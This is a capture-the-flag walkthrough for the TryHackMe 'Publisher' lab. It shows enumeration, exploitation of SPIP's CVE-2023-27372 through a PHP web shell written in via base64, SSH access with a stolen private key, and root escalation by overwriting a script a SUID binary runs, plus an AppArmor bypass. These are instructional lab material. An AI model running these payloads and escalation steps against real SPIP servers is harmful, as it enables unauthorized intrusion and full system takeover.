 
# 📰 TryHackMe: Publisher

> A vulnerable blog site using SPIP CMS, exploitable via unauthenticated RCE (CVE-2023-27372), followed by SSH access and privilege escalation bypassing AppArmor.

---

## 🎯 Objectives

- Identify open services and discover SPIP CMS
- Exploit unauthenticated RCE vulnerability in SPIP v4.2.0
- Retrieve private key and gain shell access via SSH
- Escalate privileges using SUID binary and AppArmor bypass
- Capture root flag

---

## 🔧 Tools Used

- `nmap` – Service & OS detection
- `gobuster` – Directory enumeration
- `exploit.py` – Exploit script for SPIP RCE
- `ssh` – Remote shell access
- `chmod`, `find`, `ps`, `cp`, `echo`, `bash` – Local privilege escalation
- Firefox + Wappalyzer – Version detection

---

## 🔍 Enumeration

Nmap Scan:
```bash
nmap 10.10.177.2 -A
```

Results:
- 22/tcp – OpenSSH 8.2p1 (Ubuntu)
- 80/tcp – Apache 2.4.41 (Ubuntu) hosting a SPIP-based blog

SPIP Version: Detected using Wappalyzer (v4.2.0)

---

## 🔎 Directory Discovery

```bash
gobuster dir -u http://10.10.177.2/ -w /usr/share/seclists/Discovery/Web-Content/big.txt
```

Found: `/spip`

---

## 💥 Exploitation (RCE via CVE-2023-27372)

Payload:
```php
<?=`$_GET[0]`?>
```

Base64 Encoded: `PD89YCRfR0VUWzBdYD8+`

Exploit script:
```bash
python2 exploit.py -u http://10.10.177.2/spip/ -c 'echo PD89YCRfR0VUWzBdYD8+|base64 -d>shell.php'
```

---

## 🔑 Gaining Shell Access

Retrieved `id_rsa` private key from shell.

Set permissions:
```bash
chmod 600 id_rsa
```

SSH into machine:
```bash
ssh think@10.10.177.2 -i id_rsa
```

---

## 🔓 Privilege Escalation

Check for SUID binaries:
```bash
find / -perm -u=s -type f 2>/dev/null
```

Found a binary executing `/opt/run_container.sh`. We have write access to this script.

---

## 🧱 AppArmor Bypass

Checked running services:
```bash
service --status-all | grep '+'
```

Found AppArmor enabled.

Verified ash shell with:
```bash
ps -p $$ -o args=
getent passwd think
```

Bypassed AppArmor:
```bash
cp /bin/bash /dev/shm
ls -la /dev/shm
```

Confirmed `/dev/shm/bash` exists.

Modified `run_container.sh`:
```bash
echo 'chmod u+s /bin/bash' > /opt/run_container.sh
```

Executed:
```bash
/usr/sbin/run_container
bash -p
```

---

## 🏁 Root Access Achieved

You now have a root shell via SUID’d bash.

---

## 📚 What I Learned

- Identifying vulnerable CMS via enumeration
- Exploiting public CVEs (CVE-2023-27372) for RCE
- Using base64 + shell payloads for web exploitation
- SSH access using extracted private key
- AppArmor basics and privilege escalation bypass

---

✅ End of walkthrough.

